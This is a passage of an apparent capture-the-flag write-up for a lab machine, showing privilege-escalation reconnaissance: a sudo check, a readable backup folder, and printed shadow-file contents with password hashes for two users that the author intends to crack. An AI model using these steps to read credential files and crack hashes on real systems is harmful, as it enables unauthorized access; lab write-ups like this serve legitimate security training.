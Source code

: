 Tried checking what the user can run as root

```sh
sudo -l
User sunny may run the following commands on sunday:
    (root) NOPASSWD: /root/troll
```

we can run /root/troll but cant see permissions read or edit it
On running 
It prints the uid of the user it runs as (root)

using `find backup`  I found folder `/backup`

it has 2 files
```sh
drwxr-xr-x   2 root     root           4 Dec 19  2021 .
drwxr-xr-x  25 root     sys           28 Aug  1 12:30 ..
-rw-r--r--   1 root     root         319 Dec 19  2021 agent22.backup
-rw-r--r--   1 root     root         319 Dec 19  2021 shadow.backup
```

We can read those files

Shadow.backup

```sh
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Agent22.backup

```sh
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

We have password hashes of two users to crack

Probably I have to enter as sammy 
